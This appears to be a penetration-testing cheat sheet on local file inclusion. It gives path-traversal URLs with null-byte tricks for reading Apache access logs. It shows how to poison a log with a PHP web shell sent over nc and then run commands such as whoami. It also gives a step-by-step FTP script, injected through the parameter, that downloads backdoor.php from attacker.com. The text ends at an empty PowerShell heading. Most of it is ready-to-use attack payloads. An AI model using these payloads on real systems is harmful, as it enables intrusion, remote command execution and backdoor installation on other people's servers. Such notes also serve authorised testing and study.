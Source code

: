 # LFI/RFI shell tricks
The idea is to inject code into log file then calling the logfile and execute commands
Another Idea would be to inject code into site database, invoke the db file and provide the parameter
## LFI parameter
	http://example.com/page?id=LFI
## LFI log file inclusion
	try to access the log file, if ok then proceed to inject a shell on the log file
	http://example.com/page?id=../../../../../../../xampp/htdocs/apache/logs/access.log%00
	http://example.com/page?id=../../../../../../../var/log/apache2/access.log%00
	nc example.com 80
	<?php echo system($_GET['cmd']); ?>
## LFI command execution
	http://example.com/page?id=../../../../../../../xampp/htdocs/apache/logs/access.log%00&cmd=whoami
## LFI file upload
###### Using Windows built in debug.exe (Executables files smaller than 64K)
Idea
	echo hex value to a file and use debug.exe to assemble it

###### FTP Upload
	Applies to Windows prior to Windows Vista b/c in new versions it is disabled by default
	after setting up your FTP server
	http://example.com/page?id=echo+open+attacker.com+21>+ftp.txt
	http://example.com/page?id=echo+ftp-user>>+ftp.txt
	http://example.com/page?id=echo+ft-pass>>+ftp.txt
	http://example.com/page?id=echo+bin+>>+ftp.txt
	http://example.com/page?id=echo+GET+backdoor.php+>>+ftp.txt
	http://example.com/page?id=echo+bye+>>+ftp.txt
	http://example.com/page?id=ftp+-s:ftp.txt
	http://example.com/page?id=backdoor.php?cmd=whoami

###### PowerShell Upload

